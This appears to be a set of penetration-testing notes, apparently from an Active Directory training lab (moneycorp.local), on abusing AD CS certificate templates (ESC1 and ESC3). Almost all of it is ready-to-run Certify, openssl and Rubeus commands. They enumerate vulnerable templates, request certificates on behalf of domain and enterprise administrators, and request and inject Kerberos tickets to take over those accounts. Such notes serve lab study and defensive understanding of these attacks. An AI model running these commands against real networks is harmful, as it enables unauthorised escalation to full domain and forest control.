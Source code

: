 We can use the Certify tool (https://github.com/GhostPack/Certify) to enumerate (and for other attacks) AD CS in the target forest

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args cas
```

Enumerate templates
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args find
```

Enumerate vulnerable templates
> **Note:** This will only show us templates where normal users have enrolment rights to it
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args find /vulnerable
```

### ESC3 example
##### Enterprise Administrator 

> **Note:** Difference between DA and EA is we specify the domain of the forest root for EA

Request a certificate for a certificate template (example: `SmartCardEnrollment-Agent`)
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Agent"
```

Convert from `cert.pem` to `esc3.pfx` 
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3.pfx
```

Use `esc3.pfx` to request a certificate on behalf of EA using the `SmartCardEnrollment-Users` template
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args  request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3.pfx /enrollcertpw:Pwned123!
```

Request EA TGT and inject it
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:moneycorp.local\administrator /certificate:esc3.pfx /dc:mcorp-dc.moneycorp.local /password:Pwned123! /ptt
```
##### Domain Administrator
Request a certificate for a certificate template (example: `SmartCardEnrollment-Agent`)
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Agent"
```

Convert from `cert.pem` to `esc3.pfx` 
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3.pfx
```

Use `esc3.pfx` to request a certificate on behalf of DA using the `SmartCardEnrollment-Users` template.
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3.pfx /enrollcertpw:Pwned123!
```

Convert from `cert.pem` to pfx (`esc3user-DA.pfx` below), request DA TGT and inject it
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:administrator /certificate:esc3.pfx /password:Pwned123! /ptt
```

### ESC1 example
Check for templates that has the value of `ENROLLEE_SUPPLIES_SUBJECT ` for `msPKI-Certificates-Name-Flag`
```powershell
.\Certify.exe find /enrolleeSuppliesSubject
```

The template `HTTPSCertificates` allows enrolment to the RDPUsers group. Request
a certificate for DA (or EA) as a regular user
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```

Convert from `cert.pem` to `esc1.pfx` and specify export password
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1.pfx
```

Request a TGT for DA (or EA)
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1.pfx /password:Pwned123! /ptt
```
